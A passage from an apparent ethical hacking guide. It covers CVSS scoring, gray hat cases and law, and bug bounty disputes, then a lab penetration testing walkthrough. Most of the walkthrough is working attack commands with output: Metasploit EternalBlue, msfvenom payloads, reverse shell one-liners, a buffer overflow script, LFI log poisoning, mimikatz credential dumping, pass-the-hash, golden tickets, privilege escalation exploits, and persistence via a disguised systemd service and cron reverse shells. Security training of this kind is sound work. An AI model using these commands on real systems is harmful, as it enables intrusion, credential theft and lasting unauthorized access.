   ├── Tool output (Nmap scan results, Metasploit sessions)
   ├── Raw log extracts
   ├── Screenshots
   ├── Supporting code or scripts
   └── Glossary
```

**CVSS Scoring Example:**
```
Finding: SQL Injection in /api/users endpoint
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Base Score: 9.8 (Critical)

Vector Breakdown:
- AV:N (Network): Exploitable remotely
- AC:L (Low): No specialized conditions
- PR:N (None): No authentication required
- UI:N (None): No user interaction needed
- S:U (Unchanged): Affects only vulnerable component
- C:H (High): Full data confidentiality loss
- I:H (High): Full data integrity loss
- A:H (High): Full availability loss
```

---

## Section 3: Gray Hat Hacking

### 3.1 Definition and Characteristics


Gray Hat hackers operate in the ethical and legal gray zone between Black and White Hats. They typically:
- Find vulnerabilities without explicit authorization (like Black Hats)
- Disclose them to the vendor (like White Hats)
- May publicly disclose if the vendor is unresponsive (unlike White Hats)
- Do not seek financial gain from exploitation (unlike Black Hats)
- Often believe they are serving the greater good

**Gray Hat Tactics:**

```
1. Scan public infrastructure for vulnerabilities
2. Upon finding one:
   └── Option A: Notify vendor with PoC (most common)
   └── Option B: Public disclosure if vendor ignores (controversial)
   └── Option C: Sell to broker (crosses into Black Hat territory)
   └── Option D: Patch and move on (rare)
3. Negotiate timeline with vendor
4. If no patch in reasonable time → partial disclosure
5. Full disclosure after patch or vendor refusal
```

### 3.2 Ethical Dilemmas


**1. Disclosing vs Withholding:**

| Argument FOR Disclosure | Argument AGAINST Disclosure |
|-------------------------|----------------------------|
| Users deserve to know | Gives Black Hats exploit details |
| Vendor accountability | Systems remain unpatched |
| Community defense | Panic before patch available |
| Precedent for responsible behavior | Legal liability risk |
| Drives faster patches | Harms vendor reputation |

**2. Bug Bounty Arbitration:**
When a researcher finds a bug but the vendor disagrees on:
- **Severity:** Vendor rates low, researcher rates critical
- **Scope:** Vendor claims it's out of scope, researcher disagrees
- **Duplicate:** Vendor says another researcher already reported it
- **p-Hacking:** Vendor creates many low-severity findings for same root cause

**3. Responsible vs Full Disclosure:**
The debate centers on whether to release full technical details of a vulnerability:

- **Responsible Disclosure (Coordinated):**
  - Private notification to vendor
  - Agreed timeline (typically 90 days)
  - Public disclosure only after patch
  - Limited PoC details in public advisory

- **Full Disclosure:**
  - Immediate public release of all details
  - Forces vendor to act quickly
  - Controversial, can be reckless
  - Supported by some in the security community

- **Hybrid Approach:**
  - 90-120 day private disclosure window
  - If no fix, release limited details
  - Escalate to CISA/other authorities

### 3.3 Famous Gray Hat Cases


**Case: Khalil Shreateh (Facebook Bug Bounty)**

```
Year: 2013
Finding: Ability to post to any Facebook user's wall without permission
Initial Attempt: Reported via Facebook's bug bounty system
Result: Facebook claimed it was not reproducible
Second Attempt: Posted to Mark Zuckerberg's wall to prove severity
Result:
├── Facebook fixed the bug
├── Khalil's account was disabled
├── Facebook refused bounty ($500 offered later, he rejected)
├── Crowd-funded compensation: Over $10,000 from supporters
└── HackerOne hired Khalil as a security engineer
Ethical Question: Was posting to Zuckerberg's wall justified?
├── Yes: Only way to prove severity after FB dismissed report
└── No: Exploiting vulnerability on a real user without consent
```

**Case: Geohot (George Hotz)**

```
Achievements:
├── First iPhone unlock (2007) — carrier lock bypass
├── PS3 jailbreak (2010) — gained root access, published exploit
├── Legal battle with Sony (2011)
│   ├── Sony sued under CFAA and DMCA
│   ├── Settlement: Geohot banned from Sony products
│   └── Community raised over $60K for legal defense
└── Later: Contributed to self-driving car research (comma.ai)

Significance: The PS3 case established important precedent
about the legal boundaries of security research.
```

**Case: #OpIsrael (Anonymous)**

```
Year: 2013
Action: Anonymous launched DDoS attacks against Israeli government sites
Claim: Protesting Palestinian human rights issues
Result:
├── Thousands of Israeli sites targeted
├── Multiple Anonymous participants arrested globally
└── Continues as annual event (OpIsrael every April 7)
Gray Hat Nature:
├── Political motivation (hacktivism) — typical of Gray Hats
└── Unauthorized access + DDoS — criminal activity
```

**Case: Weev (Andrew Auernheimer) — AT&T iPad Leak**

```
Year: 2010
Finding: AT&T exposed email addresses of 114,000 iPad owners (including
government officials, military, executives) via an unauthenticated API
Action: Weev and Daniel Spitler created a script to collect the emails
         and forwarded to Gawker for reporting
Result:
├── Charged under CFAA (Computer Fraud and Access to Stored Communications)
├── Convicted: 41 months in federal prison
├── 2014: Conviction overturned (venue issue, not technical)
├── Later defended by EFF's Nate Cardozo
└── Debate continues about CFAA interpretation
```

**Case: Goatse Security (Hacker Group)**

```
Similar to Weev; Goatse Security focused on finding security holes
in major services and publishing findings. Their "disclose everything"
philosophy placed them firmly in controversial Gray Hat territory.
```

### 3.4 Legal Gray Areas


**Computer Fraud and Abuse Act (CFAA - US):**
The CFAA (18 U.S.C. § 1030) is the primary US computer crime law. Key issues for Gray Hats:

```
Key CFAA Provisions:
§ 1030(a)(2): Unauthorized access to obtain information
§ 1030(a)(5): Causing damage through unauthorized access
§ 1030(a)(7): Extortion involving computers

Gray Hat Concerns:
├── "Exceeds authorized access" — vague wording
├── Does scanning without authorization count?
├── Does viewing publicly accessible data count?
├── 2013: Aaron Swartz prosecuted under CFAA for downloading JSTOR articles
│   → Faced 35 years, committed suicide before trial
├── 2021 (Van Buren v. United States): Supreme Court narrowed CFAA
│   → "Exceeds authorized access" doesn't apply if you misuse
│     information you're allowed to access
│   → Major win for security researchers
└── 2022: CFAA reform bill introduced but not passed
```

**UK Computer Misuse Act 1990:**
```
Section 1: Unauthorized access to computer material
  - Up to 2 years imprisonment
Section 2: Unauthorized access with intent to commit further offenses
  - Up to 5 years imprisonment
Section 3: Unauthorized acts with intent to impair computer operation
  - Up to 10 years imprisonment

Gray Hat Concern: Any unauthorized scanning or testing violates
Section 1, regardless of intention. There is no "public interest"
defense for vulnerability research.
```

**Other International Laws:**

| Country | Law | Key Concern for Researchers |
|---------|-----|---------------------------|
| China | Cybersecurity Law, Data Security Law | VPN testing, data access |
| Russia | Federal Law No. 149-FZ (Information Law) | Encryption research, VPN |
| EU | GDPR (Art. 32, 33) | Breach disclosure obligations |
| Germany | § 202a StGB (Data Espionage) | No research exemption |
| Japan | Unauthorized Computer Access Law | Requires authorization |
| India | IT Act 2000 § 43, 66 | Broad, vague language |
| Canada | Criminal Code § 342.1 (Unauthorized use of computer) | Similar to CFAA |

### 3.5 Bug Bounty Disputes


**Common Dispute Types:**

| Dispute Type | Description | Example |
|-------------|-------------|---------|
| Scope Creep | Vendor claims finding is out of scope | Finding in *.vendor.com subdomain that vendor "doesn't own" |
| Severity Downgrade | Vendor rates lower than researcher | SQLi rated as Medium instead of Critical |
| Duplicate | Vendor claims already reported | Researcher proves dupe is actually different |
| p-Hacking | Vendor splits issue into many "low" findings | CSRF tokens missing treated as separate issues |
| Disclosure Violation | Researcher publishes before patch | Researcher releases details at 90 days, vendor wanted 180 |
| Payout Dispute | Disagreement on bounty amount | Critical finding, vendor offers $500 |
| Banning | Researcher banned for "invalid reports" | Pattern: researcher banned after finding critical bugs |

**Tools for Dispute Resolution:**
- **HackerOne Mediation:** Platform acts as intermediary
- **Bugcrowd Arbitration:** Third-party managed mediation
- **CISO Intermediary:** Company infosec team can override bug bounty team
- **Researcher Community:** Public shaming / crowd-sourced support
- **Legal Action:** Rare, but researchers have sued for payment

## Section 4: Penetration Testing Lab - Full Walkthrough

### 4.1 Lab Setup


**Hardware Requirements:**
```
Minimum: 16GB RAM, 256GB SSD, 4+ CPU cores
Recommended: 32GB RAM, 512GB SSD, 8+ CPU cores
```

**Virtualization Setup (VirtualBox):**

| VM | OS | RAM | Storage | Network | Purpose |
|----|-----|-----|---------|---------|---------|
| Kali Linux | Kali 2024.3 | 4GB | 80GB | NAT + Host-Only | Attack machine |
| Metasploitable 2 | Ubuntu 8.04 | 512MB | 8GB | Host-Only | Vulnerable target |
| Metasploitable 3 (Win) | Windows Server 2008 | 2GB | 40GB | Host-Only | Windows target |
| Ubuntu Server 22.04 | Ubuntu Server | 1GB | 20GB | Host-Only | Linux target |
| pfSense | FreeBSD | 1GB | 10GB | 3 networks | Firewall/router |
| Windows 10 | Win 10 Pro | 4GB | 60GB | Host-Only | Client target |

**Kali Linux Tools (pre-installed):**
```
Network Scanning: nmap, masscan, netcat, arp-scan
Web Tools: burpsuite, zaproxy, sqlmap, dirb, gobuster, ffuf, wfuzz, nikto
Exploitation: metasploit-framework, searchsploit, msfvenom
Password Attacks: hydra, john, hashcat, crunch, medusa
Post-Exploitation: mimikatz, powershell-empire, bloodhound
Sniffing/Spoofing: wireshark, bettercap, ettercap, tcpdump
Wireless: aircrack-ng, kismet, reaver, fern-wifi-cracker
Reverse Engineering: radare2, ghidra, edb-debugger, apktool
Reporting: faraday, dradis, keepnote, cherrytree
```
---
### 4.2 Phase 1: Reconnaissance

Recon is the most critical phase. The difference between a successful pentest and a failed one is usually the quality of recon.

**Passive Reconnaissance (OSINT):**

**Shodan.io:**
```
shodan search "apache 2.4.49 country:US"
shodan search "port:3389 os:Windows"
shodan search "org:AcmeCorp"
shodan search "ssl:acme.com"
shodan host 8.8.8.8
```

**Google Dorking:**
```
site:acme.com filetype:pdf confidential
site:acme.com filetype:log password
site:acme.com filetype:xlsx salary
intitle:"index of" "backup" site:acme.com
intitle:"index of" "config" site:acme.com
site:acme.com inurl:admin.php
site:acme.com inurl:login
intitle:"Dashboard [Jenkins]" site:acme.com
intitle:"Kibana" "Please login" site:acme.com
```

**theHarvester:**
```
theHarvester -d acme.com -b google
theHarvester -d acme.com -b linkedin
theHarvester -d acme.com -b shodan
theHarvester -d acme.com -b all -l 500

# Output:
# admin@acme.com, j.doe@acme.com, support@acme.com
# mail.acme.com, vpn.acme.com, dev.acme.com
```

**Amass:**
```
amass enum -passive -d acme.com
amass enum -active -d acme.com -brute
```

**Sublist3r:**
```
sublist3r -d acme.com -o subdomains_acme.txt
```

**DNS Enumeration:**
```
dnsrecon -d acme.com -t axfr
dnsrecon -d acme.com -t brt -D /usr/share/wordlists/dns.txt
dig acme.com ANY @8.8.8.8
dig acme.com MX @8.8.8.8
dig acme.com TXT @8.8.8.8
nslookup -type=MX acme.com
```

**Certificate Transparency:**
```
curl -s "https://crt.sh/?q=%.acme.com&output=json" | sort -u
```
---
### 4.3 Phase 2: Scanning


**Nmap - Full Port Scan:**
```
nmap -p- -T4 10.10.10.10 -oN full_tcp_scan.txt
# 22/tcp open ssh, 80/tcp open http, 443/tcp open https
# 135/tcp open msrpc, 139/tcp open netbios-ssn, 445/tcp open microsoft-ds
# 3306/tcp open mysql, 3389/tcp open ms-wbt-server

nmap -sV -sC -O -A -T4 -p 22,80,443,445,3306,3389 10.10.10.10
# 22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
# 80/tcp   open  http          Apache httpd 2.4.54
# 445/tcp  open  microsoft-ds  Samba smbd 4.6.X
# 3306/tcp open  mysql         MySQL 8.0.32

nmap --script vuln -p 80,443,3306 10.10.10.10
# http-shellshock: VULNERABLE
# mysql-empty-password: Account with empty password: root
```

**Masscan:**
```
masscan 10.10.0.0/24 -p0-100 --rate=5000
masscan 10.0.0.0/8 -p22,3389,8080 --rate=50000 --exclude 10.0.0.1
```

**Nikto:**
```
nikto -h http://10.10.10.10
# /.git/config: Backup file found, /console: Tomcat console
# /phpinfo.php: PHP info, /wp-admin/: WordPress admin
# /cgi-bin/test.cgi: Potential Shellshock
```

**Nuclei:**
```
nuclei -u https://acme.com
# [cve-2024-XXXX] [critical] SQLi
# [cve-2023-YYYY] [high] WordPress
# [tech-detect] Apache 2.4.54, PHP 8.1.12
```

**Vulnerability Scanning (OpenVAS):**
```
gvm-setup && gvm-start
gvm-cli --gmp-username admin --gmp-password pass --xml "<create_target>..."
```
---
### 4.4 Phase 3: Enumeration


**SMB Enumeration:**
```
smbclient -L //10.10.10.10 -N
# Shares: print$, docs, IPC$
enum4linux -a 10.10.10.10
# Users: administrator, bob, alice, root
```

**Web Directory Busting:**
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
# /admin (403), /api (200), /backup (200), /login (200), /uploads (200)

ffuf -u http://10.10.10.10/FUZZ -w /usr/share/wordlists/dirb/common.txt
ffuf -w subdomains-top1million-5000.txt -u http://10.10.10.10 -H "Host: FUZZ.acme.com"
```

**FTP Enumeration:**
```
ftp 10.10.10.10 (anonymous/anonymous)
nmap --script ftp-anon,ftp-bounce -p 21 10.10.10.10
# Anonymous FTP login allowed with README.txt, backup.zip
```

**SMTP Enumeration:**
```
nmap --script smtp-commands,smtp-enum-users -p 25 10.10.10.10
smtp-user-enum -M VRFY -U users.txt -t 10.10.10.10
# VRFY says: admin exists, root exists
```

**SNMP Enumeration:**
```
snmpwalk -c public -v2c 10.10.10.10
onesixtyone -c snmp-community.txt 10.10.10.10
# [public] Linux AcmeServer 5.15.0-86-generic
```

**LDAP Enumeration:**
```
nmap --script ldap-rootdse,ldap-search -p 389 10.10.10.10
ldapsearch -x -h 10.10.10.10 -b "dc=acme,dc=com" "(objectclass=user)" sAMAccountName
# jdoe: Domain Admins
```

**NFS Enumeration:**
```
showmount -e 10.10.10.10
# /home *, /var/backups 10.0.0.0/24, /opt/shared (everyone)
mount -t nfs 10.10.10.10:/home /mnt/nfs_home
```
---
### 4.5 Phase 4: Exploitation


**Metasploit Framework - Full Walkthrough:**
```
msfconsole -q
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 10.10.10.10
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.10.5
msf6 > set LPORT 4444
msf6 > exploit

# [*] Host is likely VULNERABLE to MS17-010!
# [*] Meterpreter session 1 opened
```

**msfvenom Payload Generation:**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe -o payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf -o payload.elf
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f raw -o payload.php
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -e x64/zutto_dekiru -i 5 -f exe -o encoded.exe
```

**Netcat Reverse Shell One-Liners:**
```
# Linux: nc -e /bin/sh 10.10.10.5 4444
# Linux (no -e): rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.5 4444 >/tmp/f
# Bash: bash -i >& /dev/tcp/10.10.10.5/4444 0>&1
# Python: python -c 'import socket,s,o;s=socket.socket();s.connect(("IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
# PHP: php -r '$sock=fsockopen("10.10.10.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# Windows: nc.exe -e cmd.exe 10.10.10.5 4444
```

**Meterpreter Session Commands:**
```
meterpreter > sysinfo
# Computer: ACME-WIN7, OS: Windows 7 SP1, Arch: x64
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter > screenshot
meterpreter > keyscan_start / keyscan_dump
# Captured: admin / P@ssw0rd!
meterpreter > hashdump
# Administrator:fc525c9683e8fe067095ba2ddc971889
meterpreter > load kiwi
meterpreter > creds_all
# Administrator P@ssw0rd! NTLM: fc525c...
meterpreter > getsystem (Named Pipe Impersonation)
meterpreter > migrate -N explorer.exe
```

**SQLmap:**
```
sqlmap -u "http://acme.com/page?id=1" --dbs --dump
# Database: acme_db, Table: users
# admin / P@ssw0rd, jdoe / Summer24!, bob / 123456

sqlmap -r request.txt --dbs
sqlmap -u "http://acme.com/page?id=1" --os-shell
```

**Hydra:**
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
# [22][ssh] login: admin password: P@ssw0rd!

hydra -l admin -P rockyou.txt 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Invalid"
hydra -L users.txt -P rockyou.txt ftp://10.10.10.10
```

**Password Cracking:**
```
john --wordlist=rockyou.txt hash.txt
# P@ssw0rd! (Administrator), Summer2024! (jdoe)
hashcat -m 1000 -a 0 ntlm.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 -a 0 ntlm.txt rockyou.txt -r best64.rule
```

**Python Buffer Overflow Exploit:**
```python
#!/usr/bin/env python3
import socket
offset = 1034
jmp_esp = b"ó1"
nop_sled = b"" * 32
shellcode = b"ÛÃÙt$ô"  # msfvenom output
payload = b"A" * offset + jmp_esp + nop_sled + shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(10)
s.connect(("10.10.10.10", 9999))
s.send(payload + b"
")
print("[+] Payload sent!")
s.close()
```

**LFI to RCE (Log Poisoning):**
```
# LFI: http://acme.com/index.php?page=../../../../etc/passwd
# Log Poisoning:
curl -A "<?php system(\$_GET['cmd']); ?>" http://acme.com/
# Execute:
curl "http://acme.com/index.php?page=../../../../var/log/apache2/access.log&cmd=id"
# uid=33(www-data) gid=33(www-data)
```

**Web Exploitation:**
```
# SQLi: /api/user?id=1' OR '1'='1 (auth bypass)
# Blind SQLi: /api/user?id=1' AND SLEEP(5)-- -
# SSRF: /proxy?url=http://169.254.169.254/latest/meta-data/
```

**Password Spraying:**
```
crackmapexec smb 10.10.10.0/24 -u users.txt -p "Summer2024!" -d acme.com
# [+] jdoe:Summer2024! (Pwn3d!)
crackmapexec smb 10.10.10.10 -u administrator -H fc525c9683e8fe067095ba2ddc971889 -x whoami
# nt authority\system
```

### 4.6 Phase 5: Post-Exploitation


**Linux Privilege Escalation:**

**SUID Bit Enumeration:**
```bash
# Find all SUID binaries
find / -perm -u=s -type f 2>/dev/null
# Output:
# /usr/bin/su
# /usr/bin/passwd
# /usr/bin/pkexec    # <--- interesting!
# /usr/bin/sudo
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/bin/pkexec
# /sbin/mount.cifs
# /sbin/mount.nfs

# Check GTFOBins for SUID exploitation
# pkexec vulnerability: CVE-2021-4034 (PwnKit)
```

**CVE-2021-4034 (PwnKit) Exploitation:**
```bash
# Download and compile exploit on target
wget https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.c
gcc cve-2021-4034.c -o exploit
./exploit

# Output:
# [*] Spawning root shell via PwnKit (CVE-2021-4034)
# [*] Generating payload...
# [*] Triggering exploit...
# # whoami
# root
# # id
# uid=0(root) gid=0(root) groups=0(root)

# Alternative: one-liner exploit using known shell
# If we already have user access on the box:
echo 'chmod u+s /bin/bash' > /tmp/run.sh
chmod +x /tmp/run.sh
# Then if pkexec exists:
pkexec /tmp/run.sh
/bin/bash -p
# bash-4.4# whoami
# root
```

**Cron Job Exploitation:**
```bash
# Check cron jobs
ls -la /etc/cron*
cat /etc/crontab
# Output:
# SHELL=/bin/bash
# PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# * * * * * root /usr/local/bin/backup.sh

# Check if we can write to the script
ls -la /usr/local/bin/backup.sh
# -rwxrwxrwx 1 root root 45 Oct 15 14:30 /usr/local/bin/backup.sh
# We can write to it!

# Replace with reverse shell
echo '#!/bin/bash
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1' > /usr/local/bin/backup.sh

# Wait for cron to trigger (within 1 minute)
# Listener should catch root shell

# Check world-writable directories in PATH
find / -writable -type d 2>/dev/null
```

**LXD Container Escape:**
```bash
# Check if user is in lxd group
id
# uid=1000(user) gid=1000(user) groups=1000(user),999(lxd)

# Import Alpine image and mount host filesystem
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root
lxc start privesc
lxc exec privesc /bin/sh
# / # ls /mnt/root/
# bin   dev  home  lib64  mnt  root  sbin  sys  usr
# boot  etc  lib   media  opt  run   srv   tmp  var
# / # cat /mnt/root/etc/shadow
# root:$6$xyz...:19500:0:99999:7:::
```

**Kernel Exploit Enumeration (linux-exploit-suggester):**
```bash
# Clone and run on target
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# Output extract:
# Kernel version: 4.4.0-116-generic
# Architecture: x86_64
# ========================
# CVE-2017-16995  eBPF verifier   (kernel 4.4-4.14)
# CVE-2017-1000112  UDP memory corruption (kernel 4.4-4.5)
# CVE-2016-5195  DirtyCow        (kernel 2.6.22-4.8)
# CVE-2021-4034  PwnKit          (pkexec)
# CVE-2022-0847  DirtyPipe       (kernel 5.8-5.16)
```

**Windows Privilege Escalation:**

**Token Impersonation:**
```bash
meterpreter > load incognito
# Loading extension incognito...success.

meterpreter > list_tokens -u
# Delegation Tokens Available
# ========================================
# ACME\Administrator
# ACME\jdoe
# NT AUTHORITY\SYSTEM
# 
# Impersonation Tokens Available
# ========================================
# ACME\sqlservice
# ACME\iis_service

meterpreter > impersonate_token ACME\\Administrator
# [+] Delegation token available
# [+] Successfully impersonated ACME\Administrator

meterpreter > getuid
# Server username: ACME\Administrator

meterpreter > rev2self
# Back to original token
```

**Unquoted Service Paths:**
```bash
# Find unquoted service paths
wmic service get name,displayname,pathname,startname | findstr /i /v "C:\Windows\\"

# Or using PowerUp.ps1
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/PowerUp.ps1'); Get-ModifiableServiceFile"

# Example: service with unquoted path
# Service: VulnService
# Path: C:\Program Files\Vulnerable App\Service.exe
# StartName: LocalSystem

# If "C:\Program Files\Vulnerable" is writable, create:
# C:\Program Files\Vulnerable App.exe
# This gets launched instead of the real service

# Create malicious service binary
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4445 \
    -f exe -o "C:\Program Files\Vulnerable App.exe"

# Restart service
sc stop VulnService
sc start VulnService

# Meterpreter session received!
```

**DLL Hijacking:**
```bash
# Find process loading DLLs from user-writable paths
# Using Process Monitor, procmon finds missing DLLs quickly:
# 1. Filter: Path contains .dll
# 2. Filter: Result is "NAME NOT FOUND"
# 3. Find writable directory in search order

# Create malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4446 \
    -f dll -o missing.dll

# Place DLL in writable search path
copy missing.dll C:\Users\Public\missing.dll

# Wait for service to load DLL or manually restart
```

**PrinterNightmare (CVE-2021-34527):**
```bash
# Check if vulnerable
crackmapexec smb 10.10.10.10 -u administrator -H fc525c... -M printnightmare

# Exploit
git clone https://github.com/cube0x0/CVE-2021-1675.git
cd CVE-2021-1675

# Create malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4447 \
    -f dll -o evil.dll

# Run exploit
python3 CVE-2021-1675.py acme.com/administrator:fc525c...@10.10.10.10 \\
    \\10.10.10.5\share\evil.dll
```

**JuicyPotato/RoguePotato:**
```bash
# Requirements: SeImpersonatePrivilege enabled
whoami /priv
# PRIVILEGES INFORMATION
# ======================
# Privilege Name                Description                          State
# ============================= ==================================== =======
# SeImpersonatePrivilege        Impersonate a client after           Enabled
#                               authentication
# SeAssignPrimaryTokenPrivilege Replace a process level token        Disabled

# Download JuicyPotato
certutil -urlcache -f http://10.10.10.5/JuicyPotato.exe JP.exe

# Execute as SYSTEM
JP.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\users\public\whoami.txt" -t *
type C:\users\public\whoami.txt
# nt authority\system

# Reverse shell as SYSTEM
JP.exe -l 1337 -p c:\windows\system32\nc.exe -a "10.10.10.5 4448 -e cmd.exe" -t *
```

**Windows Kernel Exploit Enumeration:**
```bash
# Windows Exploit Suggester
# On Kali:
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
python windows-exploit-suggester.py --database 2024-10-15-mssb.xlsx --systeminfo systeminfo.txt

# Using Sherlock (on target)
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/Sherlock.ps1'); Find-AllVulns"

# Output extract:
# Title      : MS16-032: Secondary Logon Handle
# CVE(s)     : CVE-2016-0099
# Author(s)  : James Forshaw
# Vuln Status: Appears Vulnerable
# 
# Title      : MS17-010: SMB RCE
# CVE(s)     : CVE-2017-0143
# Author(s)  : Equation Group
# Vuln Status: Appears Vulnerable
```

**Hash Dumping:**

```bash
# Mimikatz (full output)
mimikatz.exe
privilege::debug
# Output: Privilege '20' OK

sekurlsa::logonpasswords
# Output:
# Authentication Id : 0 ; 123456 (00000000:0001e240)
# Session           : Interactive from 2
# User Name         : Administrator
# Domain            : ACME
# SID               : S-1-5-21-123456789-1234567890-1234567890-500
# 
#     msv :
#      [00000003] Primary
#      * Username : Administrator
#      * Domain   : ACME
#      * NTLM     : fc525c9683e8fe067095ba2ddc971889
#      * SHA1     : a60885ffa159a0664475c2b410ce3cb59317d7c0
#      * DPAPI    : a1b2c3d4e5f6089abcdef0123456789
#     tspkg :
#      * Username : Administrator
#      * Domain   : ACME
#      * Password : P@ssw0rd2024!
#     wdigest :
#      * Username : Administrator
#      * Domain   : ACME
#      * Password : P@ssw0rd2024!
#     kerberos :
#      * Username : administrator
#      * Domain   : ACME.COM
#      * Password : P@ssw0rd2024!
#     ssp :
#     credman :
# 
# Authentication Id : 0 ; 99999 (00000000:0001869f)
# Session           : Service from 0
# User Name         : sql_svc
# Domain            : ACME
# NTLM              : e19ccf75ee54e06b06a5907af13cef42

# Dump all credentials
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full

# DCSync attack (if we have replication rights)
lsadump::dcsync /domain:acme.com /user:krbtgt
# Output:
# 44534f9d8a26e7bc9d6e089fc3456789 xxxxxxxx xxxxxxxx xxxxxxxx
# krbtgt:502:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::

# Dump SAM
token::elevate
lsadump::sam
# Output:
# RID       : 000001f4 (500)
# User      : Administrator
# LM Hash   : aad3b435b51404eeaad3b435b51404ee
# NT Hash   : fc525c9683e8fe067095ba2ddc971889

# Golden Ticket creation
kerberos::golden /user:Administrator /domain:acme.com /sid:S-1-5-21-123456789-1234567890-1234567890 /krbtgt:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /id:500 /ptt
misc::cmd

# Dump LSA secrets
lsadump::secrets
# Output:
# [machine] SECRET\$MACHINE.ACC:plain_password_hex:...
```

**impacket-secretsdump:**
```bash
# Remotely dump hashes (no agent needed)
impacket-secretsdump acme.com/Administrator:P@ssw0rd2024\!@10.10.10.10

# Output:
# Impacket v0.12.0 - Copyright 2022 Fortra
# [*] Service RemoteRegistry is in stopped state
# [*] Service RemoteRegistry is disabled, enabling it
# [*] Target system bootKey: 0x12a34bc56d789ef012abc3d45678e90f
# [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# [*] Dumping cached domain logon info (uid:encryptedHash:longDomain:domain)
# administrator:ACME.COM:$DCC2$10240#administrator#xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx::
# [*] Dumping LSA Secrets
# $MACHINE.ACC: plain_password_hex:6f726231...
# NL$KM: 1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef
# [*] Dumping DPAPI secrets
# dpapi_machinekey:0x1234567890abcdef0x1234567890abcdef
# dpapi_userkey:0x1234567890abcdef0x1234567890abcdef
# [*] Cleaning up...

# Pass-the-hash with impacket
impacket-wmiexec -hashes :fc525c9683e8fe067095ba2ddc971889 Administrator@10.10.10.10
impacket-psexec -hashes :fc525c9683e8fe067095ba2ddc971889 Administrator@10.10.10.10
impacket-smbexec -hashes :fc525c9683e8fe067095ba2ddc971889 Administrator@10.10.10.10
```

**Lateral Movement:**

```bash
# PSExec (Windows)
psexec \\\\DC01 -u administrator -p P@ssw0rd! -s cmd.exe

# PSExec from impacket
impacket-psexec acme.com/administrator:P@ssw0rd!@10.10.10.11

# WinRM
winrs -r:DC01 -u:administrator -p:P@ssw0rd! ipconfig

# WinRM with crackmapexec
crackmapexec winrm 10.10.10.10 -u administrator -H fc525c9683e8fe067095ba2ddc971889 -x whoami

# WMI with wmic
wmic /node:DC01 /user:administrator /password:P@ssw0rd! process call create "cmd.exe /c whoami > C:\tmp\out.txt"

# WMI with impacket
impacket-wmiexec acme.com/administrator:P@ssw0rd!@10.10.10.11

# SMB exec via net use
net use \\\\DC01\\admin$ /user:acme\\administrator P@ssw0rd!
copy payload.exe \\\\DC01\\admin$\\temp\\payload.exe
wmic /node:DC01 process call create "C:\\Windows\\temp\\payload.exe"

# SSH key-based lateral movement
ssh-copy-id -i ~/.ssh/id_rsa.pub user@10.10.10.12
ssh user@10.10.10.12
```

**Persistence Mechanisms:**

```bash
# Linux Cron
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.5/4449 0>&1'") | crontab -

# Linux systemd service
cat > /etc/systemd/system/update.service << 'EOF'
[Unit]
Description=System Update Service
[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.5/4449 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF

systemctl enable update.service
systemctl start update.service

# SSH authorized_keys
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Windows Registry Run Keys
